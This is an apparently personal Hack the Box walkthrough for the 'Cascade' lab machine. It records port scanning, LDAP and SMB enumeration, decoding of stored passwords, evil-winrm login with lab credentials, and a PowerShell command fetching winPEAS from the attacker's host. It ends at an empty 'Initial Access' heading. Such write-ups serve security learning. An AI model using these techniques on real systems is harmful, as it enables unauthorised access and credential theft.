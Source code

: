 ```yaml
---
title: Cascade - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cascade.png
---
```

---
title: Cascade_(I) - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cascade_(I).png
---
---
title: 2024-10-12-Cascade_(I) - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cascade_(I).png
---
### Scan
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```
### Enumeration
no zone transfer
no smb (map or client)
enum4linux users hit (via rpcclient) ![Image](/assets/Screenshot 2024-09-16 at 1.37.17 PM.png)
group hit (via rpcclient)![Image](/assets/Screenshot 2024-09-16 at 1.39.11 PM.png)
Password Policy Info ![Image](/assets/Screenshot 2024-09-16 at 1.37.53 PM.png)
Dump users into a file, grep and clean, then use script to asrep roast.
ASREP roast came back with nothing.
weak password policy, want to try and crack... Too much. Enumerate thoroughly, exploit simply. I'm missing something
LDAP dump with `ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182`
Reallllllly look. Ryan encoded password. Looks like BASE64 ![Image](/assets/Screenshot 2024-09-16 at 2.20.37 PM.png)
Decode with online decoder, password is `rY4n5eva`
Time to re-enumerate shares with `smbmap -H cascade.htb -u "user" -p "pass"`
![Image](/assets/Screenshot 2024-09-16 at 2.32.54 PM.png)
Only share we have access to is IT. Interesting email, log files, but really interesting s.smith files
![Image](/assets/Screenshot 2024-09-16 at 2.40.59 PM.png)
Email disclosing TempAdmin w/ possible brute password ![Image](/assets/Screenshot 2024-09-16 at 2.42.21 PM.png)
Hex password and possible VNC service escalation![Image](/assets/Screenshot 2024-09-16 at 2.49.23 PM.png)
Regular hex decoding didn't work, but there is a VNC decrypt tool for it. Which other box used this?
Encode and create the crackable file, as the tool only takes ciphertext: `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc.psd`
`sT333ve2` Password ![Image](/assets/Screenshot 2024-09-16 at 3.08.13 PM.png)
We've got two sets of credentials now.  `s.smith:sT333ve2` and `r.thompson:rY4n5eva`
Re-Enumerate
Steve's credentials grant us access to Audit$ share (smbmap script like above)![Image](/assets/Screenshot 2024-09-16 at 3.12.16 PM.png)
Gain access by `smbclient //10.10.10.182/Audit$ --user s.smith%sT333ve2`
Download two files![Image](/assets/Screenshot 2024-09-16 at 3.19.16 PM.png)
evilwinrm as smith `evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'`![Image](/assets/Screenshot 2024-09-16 at 3.20.01 PM.png)
Local Proof![Image](/assets/Screenshot 2024-09-16 at 3.21.01 PM.png)
`USER:8685e71cafb4e133d985dc08c223401c`

Big Oof trying to transfer with SMB and CertUtil. Crashed box twice. Python worked though. Serve WinPEAS
`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe`

Serve bloodhound ingester remotely as well. `bloodhound-python -d cascade.local -u s.smith -p sT333ve2 -ns 10.10.10.182 -c all`

Nothing from bloodhound as far as I can tell. WinPEAS?






### Initial Access
